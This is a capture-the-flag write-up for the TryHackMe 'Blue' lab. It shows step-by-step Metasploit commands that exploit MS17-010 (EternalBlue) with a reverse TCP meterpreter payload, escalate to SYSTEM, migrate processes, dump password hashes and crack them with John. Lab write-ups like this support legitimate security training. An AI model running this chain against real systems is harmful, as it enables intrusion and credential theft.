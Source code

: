 # Write Up for the Blue Room
https://tryhackme.com/room/blue

# Task 1
 1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the room RP: Nmap)
 2. How many ports are open with a port number under 1000?
 
'nmap -sC -sV 10.10.104.20': 3

 3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
 
'nmap --script=vuln 10.10.104.20': ms17_010

# Task 2
 1. Start Metasploit
 
'msfconsole'

 2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
 
'search ms17_010': exploit/windows/smb/ms17_010_eternalblue
'use exploit/windows/smb/ms17_010_eternalblue'
I've read that there's issues with the default payloads in meterpreter at the time of writing this, so I set that manually.
'set PAYLOAD windows/x64/meterpreter/reverse_tcp'

 3. Show options and set the one required value. What is the name of this value? (All caps for submission)
 
'options': RHOSTS
Now, I set RHOSTS to the target IP address with 'set RHOSTS 10.10.104.20

4. Run the exploit!
 
First, since I'm on VPN I need to use 'set LHOST tun0', then, 'exploit'. It failed once and was successful on the second try for me.

# Task 3

 1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
 
First ctrl+z, then 'search shell_to_meterpreter': post/multi/manage/shell_to_meterpreter

2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)
 
'use post/multi/manage/shell_to_meterpreter' then 'options': SESSION

3. Set the required option, you may need to list all of the sessions to find your target here.
 
'sessions' lists our sessions and their IDs, now 'set SESSION 1'

4. Run! If this doesn't work, try completing the exploit from the previous task once more.
 
'exploit'

5. Once the meterpreter shell conversion completes, select that session for use.
 
'sessions -i 1'

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 
 
'getsystem', 'shell', 'whoami'

7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
 
ctrl+z, 'y', then 'ps'. I am going to use 3064 for the TrustedInstaller.exe.

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
 
'migrate 3604' worked!

# Task 4

1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
 
'hashdump': Jon

2. Copy this password hash to a file and research how to crack it. What is the cracked password?
 
I copied the whole hash line starting with jon and ending in ::: then paste that into a file I just named hash.

In a seperate terminal I ran 'john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash'

This gave me the password I needed! There is another way to do it from within metasploit, but I did not have my database setup prior to this.

# Task 5

I took to long getting the right syntax for so I had to reexploit the machine, but coming back in I was stil nt\system

I typed 'cd /' and then 'cat flag1.txt' for the first flag.

I then navigated to /Users/Jon/Documents just to peek AND! found flag 3.

Now where is flag2? The hint is supposed to point us to where windows stores its passwords.

With some googling 'cd /windows/system32/config' and there's flag 2!
